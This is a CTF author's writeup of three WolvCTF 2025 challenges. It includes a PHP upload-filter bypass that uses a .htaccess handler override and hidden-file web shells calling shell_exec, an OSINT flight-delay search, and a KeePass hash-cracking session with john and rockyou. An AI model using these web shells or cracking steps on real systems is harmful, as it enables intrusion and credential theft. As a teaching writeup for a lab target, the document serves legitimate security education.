+++
author = "dree"
title = "WolvCTF 2025 Individual Challenges"
date = "2025-03-24"
tags = [
    "Web",
    "Forensics",
    "OSINT",
]
+++

Author Writeups for my individual challenges from WolvCTF 2025

---

## Art-Contest


### Challenge Description
Submit your best ascii art to win!

[https://art-contest-974780027560.us-east5.run.app](https://art-contest-974780027560.us-east5.run.app)

### Solve

#### File Details

Users are given this site



And `index.php` which contains the following PHP before the HTML
```php
<?php
session_start();

$session_id = session_id();
$target_dir = "/var/www/html/uploads/$session_id/";

// Creating the session-specific upload directory if it doesn't exist
if (!is_dir($target_dir)) {
    mkdir($target_dir, 0755, true);
    chown($target_dir, 'www-data');
    chgrp($target_dir, 'www-data');
}
?>
```

And after

```php
<?php

if (isset($_FILES['fileToUpload'])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $session_id = session_id();
    $target_dir = "/var/www/html/uploads/$session_id/";
    $target_file_path = $target_dir . $target_file;
    $uploadOk = 1;
    $lastDotPosition = strrpos($target_file, '.');

    // Check if file already exists
    if (file_exists($target_file_path)) {
        echo "Sorry, file already exists.\n";
        $uploadOk = 0;
    }
    
    // Check file size
    if ($_FILES["fileToUpload"]["size"] > 50000) {
        echo "Sorry, your file is too large.\n";
        $uploadOk = 0;
    }

    // If the file contains no dot, evaluate just the filename
    if ($lastDotPosition == false) {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = '';
    } else {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = substr($target_file, $lastDotPosition + 1);
    }

    // Ensure that the extension is a txt file
    if ($extension !== '' && $extension !== 'txt') {
        echo "Sorry, only .txt extensions are allowed.\n";
        $uploadOk = 0;
    }
    
    if (!(preg_match('/^[a-f0-9]{32}$/', $session_id))) {
    	echo "Sorry, that is not a valid session ID.\n";
        $uploadOk = 0;
    }

    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
        echo "Sorry, your file was not uploaded.\n";
    } else {
        // If everything is ok, try to upload the file
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file_path)) {
            echo "The file " . htmlspecialchars(basename($_FILES["fileToUpload"]["name"])) . " has been uploaded.";
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }

    $old_path = getcwd();
    chdir($target_dir);
    // make unreadable - the proper way
    shell_exec('chmod -- 000 *');
    chdir($old_path);
}
?>
```

And the `Dockerfile`:

```dockerfile
FROM php:8.4-apache

# Install cron
RUN apt-get update && apt-get install -y cron && rm -rf /var/lib/apt/lists/*

# Copy the index page
COPY index.php /var/www/html/index.php

# Create the uploads directory and make it unreadable but writeable
RUN mkdir -p /var/www/html/uploads && \
    chown root:www-data /var/www/html/uploads && \
    chmod 730 /var/www/html/uploads

# Make /var/www/html/ only readable
RUN chown root:www-data /var/www/html/ && \
    chmod 750 /var/www/html/

# Copy flag.txt over
COPY flag.txt /var/www/html/flag.txt
RUN chown root:root /var/www/html/flag.txt && \
    chmod 400 /var/www/html/flag.txt

# Copy get_flag over and compile
COPY get_flag.c /var/www/html/get_flag.c
RUN gcc /var/www/html/get_flag.c -o /var/www/html/get_flag && \
    chown root:www-data /var/www/html/get_flag && \
    chmod 4755 /var/www/html/get_flag && \
    rm /var/www/html/get_flag.c

# Create a cron job to delete uploads every hour, we can review them fast enough
RUN echo "0 * * * * root find /var/www/html/uploads -type f -delete" > /etc/cron.d/delete-uploads

RUN chmod 0644 /etc/cron.d/delete-uploads

RUN crontab /etc/cron.d/delete-uploads

# Start apache and cron
CMD bash -c "cron && apache2-foreground"
```


#### Step 1
In `index.php` there is the following:
```php
// Get the extention by getting everyting past the last '.'
last ($lastDotPosition == false) {
    $filename = substr($target_file, 0, $lastDotPosition);
    $extension = '';
} else {
    $filename = substr($target_file, 0, $lastDotPosition);
    $extension = substr($target_file, $lastDotPosition + 1);
}
```

Since there is a loose comparison (== instead of \=\=\=), this means if the last dot position is 0, this will evaluate to try and the extension will be empty. therefore, hidden files do not count as an extension

#### Step 2
```php
// Ensure that the extention is a txt file
if ( $extension !== '' && $extension !== 'txt') {
  echo "Sorry, only .txt extensions are allowed";
  $uploadOk = 0;
}
```

As long as our file does not contain an extension, it can be uploaded. this includes `.htaccess` files. an `.htaccess` file can be uploaded that contains the following to allow `.txt` files to execute as php:

```
AddType application/x-httpd-php .txt
```

#### Step 3
```php
$old_path = getcwd();
chdir($target_dir);
// make unreadable - the proper way
shell_exec('chmod -- 000 *');
chdir($old_path);
```

Due to the -- in the chmod command, an attacker can not upload file such as `--reference=file.txt`. However, since they changed the `.htaccess` file to execute commands as php, they can upload a hidden file that will not get hit by the `chmod --- 000 *` command. This may be hard to notice, since the `.htaccess` is forbidden by default. `.call_get_flag.txt` can be uploaded containing the following:

```php
<?php
echo(shell_exec('/var/www/html/get_flag 2>&1'));
?>
```

#### Step 4
An attacker needs to go into their cookies on the browser and grab PHPSESSID. Then they can navigate to the following URL (example PHPSESSID:fb14797cfe048e2eab6f43d87ba82592)



after uploading the .htaccess file and .backdoor.txt, an attacker can navigate to the following:

https://art-contest-974780027560.us-east5.run.app/uploads/fb14797cfe048e2eab6f43d87ba82592/.call_get_flag.txt

They will get this error:



```
Error opening file: No such file or directory 
```

#### Step 5

After reading the source file of get_flag.c, or downloading the file by navigating to
https://art-contest-974780027560.us-east5.run.app/get_flag and testing it, the attacker realizes they need to execute the SUID binary in the diretory `/var/www/html` since it is reading `./flag.txt`, not `/var/www/html/flag.txt`. they can create another file and upload it named `.call_get_flag_in_dir.txt`:

```php
<?php
chdir('/var/www/html');
echo(shell_exec('./get_flag'));
?>
```

https://art-contest-974780027560.us-east5.run.app/uploads/fb14797cfe048e2eab6f43d87ba82592/.call_get_flag_in_dir.txt



```
wctf{m1ss3d_m3_chm0d_:3}
```

---

## Lost 2



### Challenge Description
My other friend Johnny is somehow...worse. All I know is he is in the US, nothing else. He messaged me in January of this year saying "My flight took off just over a day and 2 hours late due to weather this SUCKS I could have driven there and back soooo many times by now" and "Sorry meant to send that last month lol airplane mode :PPP"

There's no shot of finding him right? If you do pls send the flight number using the IATA code not ICAO thanks (Flag format: wctf{XX####})

### Solve

Check the government website for databases to get the full set of data (since you can't just input one airport): https://www.transtats.bts.gov/DataIndex.asp





Eventually make your way to the `Marketing Carrier On-Time Performance` and filter by December 2024: https://www.transtats.bts.gov/DL_SelectFields.aspx?gnoyr_VQ=FGK&QO_fu146_anzr=b0-gvzr

This will show specific details about US based flights, such as departure delays



Need to select the following:
```
IATA_Code_Marketing_Airline	
Flight_Number_Marketing_Airline

OriginCityName
DestCityName

DepDelay 
WeatherDelay
```

The first two are to get the flight number for the flag, the city names are so we can confirm they are close to each other (from the message saying he could have driven back and forth several times), the departure delay to confirm it's around 26 hours late, and weather delay to confirm the delay is due to weather.

Open in excel or other editor and sort `WeatherDelay`:


Confirmation using flight radar that on December 24, the flight was delayed ~26 hours:




## Passwords


### Challenge Description

### Solve

```console
┌──(kali㉿kali)-[~/ctf/Passwords]
└─$ keepass2john Database.kdbx > keepass.hash
                                                                  
┌──(kali㉿kali)-[~/ctf/Passwords]
└─$ keepass2john Database.kdbx               
Database:$keepass$*2*6000*0*5bd85bff1c654df5d8cb8f64b877ea179b66978615917c39faf6edd98444928b*dec1f1a8a46d2257b1c536800ccea618d15523c983162f1a760d0f0e3f32bed6*02dc62f9e295c9a256e4e231b3102c1a*8ed6478291ac58151a98e7465f10a11e8cafc1706d048ef4f94fe51453f091bc*193dd9a5673c4a3f5b33dd59639f27760f03285044f14eacc652f4a441b45413
                                                                  
┌──(kali㉿kali)-[~/ctf/Passwords]
└─$ keepass2john Database.kdbx > keepass.hash                    
                                                                  
┌──(kali㉿kali)-[~/ctf/Passwords]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:47 0.35% (ETA: 02:50:40) 0g/s 1297p/s 1297c/s 1297C/s 159753159753..141106
goblue1          (Database)     
1g 0:00:01:10 DONE (2025-03-09 23:09) 0.01424g/s 1269p/s 1269c/s 1269C/s gobucks1..giana
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



Flag:
```
wctf{1_th0ught_1t_w4s_s3cur3?}
```

